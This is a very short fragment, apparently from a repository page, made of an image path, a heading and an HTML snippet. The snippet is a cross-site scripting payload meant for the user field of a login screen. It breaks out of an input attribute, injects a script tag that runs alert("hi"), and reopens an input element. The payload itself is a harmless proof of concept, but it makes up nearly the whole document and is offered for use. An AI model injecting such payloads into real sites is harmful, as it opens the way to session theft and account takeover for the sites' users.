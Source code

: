 ##This payload may be applied to the user field in the login screen
```html
    " type="text" > <script> alert("hi");</script> <input style="none
```


